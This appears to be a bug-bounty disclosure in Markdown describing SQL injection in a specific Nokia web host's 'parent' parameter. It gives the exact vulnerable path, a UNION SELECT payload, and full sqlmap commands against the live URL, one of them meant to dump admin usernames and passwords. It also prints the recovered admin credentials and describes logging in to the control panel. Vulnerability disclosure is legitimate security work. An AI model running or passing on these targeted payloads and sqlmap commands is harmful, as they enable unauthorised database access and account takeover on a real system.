 # SQL injection in https://gdclive.nokia.com - parent param

# Steps To Reproduce :
* Visit this Path `/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=`
* Add This Payload in parent param (`%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa`)
  #### Now you can see the version of database in url input
  
  <img src='src/nokiasql.png'>
  
## lets exploit it using `SQLMAP Tool`
##### Command : `$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-db --current-user`
<img src='src/sql1.png'>

`$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --all # for get the username and password of admins`

#### Booom
#### username : 123456
#### password : adminuser
<img src='src/oh.gif'>
###### So secure XD

### Try to login in
<img src='src/cp.jpg'>

#### pwned ^__^

# Impact :

##### A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

### Reference : https://www.owasp.org/index.php/Top_10-2017_A1-Injection

<img src='src/nokia_rep.png'>
